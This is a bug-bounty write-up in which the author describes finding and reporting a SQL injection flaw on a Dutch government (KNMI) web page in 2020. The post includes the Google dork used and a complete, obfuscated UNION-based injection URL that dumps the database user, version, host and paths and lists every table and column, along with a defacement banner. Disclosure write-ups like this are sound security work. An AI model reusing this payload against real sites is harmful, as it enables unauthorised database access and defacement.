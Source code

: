 ```yaml
---
title: "How I Found SQLI on Dutch Government Website in 20 Minutes"
published: true
ayout: post
categories: [bounty]
tags: [bounty,SQL Injection] 
---
```



## Introduction

Assalamu Alaikum! This is Nasur Ullah. I’m currently an undergrad student and a passionate Webapp security learner from Pakistan.

This is my first write-up and I’ll be sharing how I found SQL Injection Vulnerability on a Dutch government website.



## Story


It was a sunny afternoon in 2020, and I was mindlessly scrolling through my Facebook feed when a particular post caught my eye. It was from my friend [Remonsec](https://twitter.com/remonsec) from Bangladesh Remonsec mentioned the possibility of earning swag from Dutch government Intrigued, I reached out to Remonsec to tell me about scope of Dutch government and the scope was Wildcard so i directly use google dork `php id= site:.knmi.nl`  I was able to uncover several endpoints associated with `KNMI.nl` One such endpoint caught my attention: `https://eca.knmi.nl/utils/stationdetail.php?stationid=168` To assess its susceptibility to SQL injection, I inserted a single quote (') into the URL, prompting a site response that concealed certain images. This confirmed the presence of a SQL injection vulnerability.


Taking a manual approach, I endeavored to exploit the vulnerability further. After a few minutes of investigation and trial, I successfully executed an exploit, affirming the presence of the SQL injection flaw. I promptly reported my findings to `Dutch government` providing detailed information about the vulnerability and the steps to reproduce it.

## Final URL: ```https://eca.knmi.nl/utils/stationdetail.php?stationid=-168%27%20Union%20Select%20concat(%27%3Ccenter%3E%27,%27%3Cimg%20src=%22https://preview.ibb.co/mzji7p/39094260_106012140345838_338859137104347136_n.jpg%22%20height=%22300px%22%20width=%22300px%22%27,%27%3C/center%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22black%22%20size=%225%%22%3EInjected%20by%20.//D4RK%20!Nj3C70R++%27,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22red%22%3EUser::%20%20%20%20%20%20%27,user/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EVersion::%20%20%20%20%27,%27%3C/font%3E%27,version/**_**/(),%27%3Cbr%3E%27,%27%3Cfont%20color=%22green%22%3EDatabase::%20%20%20%27,%27%3C/font%3E%27,database/**_**/(),%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3EHost::%20%20%20%27,@@HOSTNAME,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3EDirectory::%20%20%20%20%20%20%27,@@BASEDIR,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22blue%22%3ESymlink::%20%20%20%20%27,@@HAVE_SYMLINK,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3Cfont%20color=%22green%22%3ESSL::%20%20%20%27,@@HAVE_OPENSSL,%27%3C/font%3E%27,%27%3C/br%3E%27,%27%3C/br%3E%27,(select(@x)/*!50000from*/(/*!50000select*/(@x:=0x00),(select(0)/*!From*/(/*!50000information_schema.columns*/)/*!50000where*/(table_schema=database/**_**/())and(0x00)in(@x:=/*!50000coNcat*/%20(@x,0x3c62723e,/*!50000table_name*/,0x203a3a20,/*!50000column_name*/))))x)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--+```

I quickly made a proof of concept and reported it to them A one days later, I received an email from the Dutch government, thanking me for my contribution to their cybersecurity efforts. As a token of appreciation, they sent me a personalized package filled with swag, a tangible recognition of my valuable contribution.

![Remonsec](/assets/sqli/Remonsec.PNG)


## Key Takeaways

This experience underscores the effectiveness of employing Google dorking techniques, especially when dealing with wildcard scopes, to unearth potential vulnerabilities within target domains. Additionally, it emphasizes the importance of responsible disclosure and collaboration with security organizations to enhance online security.

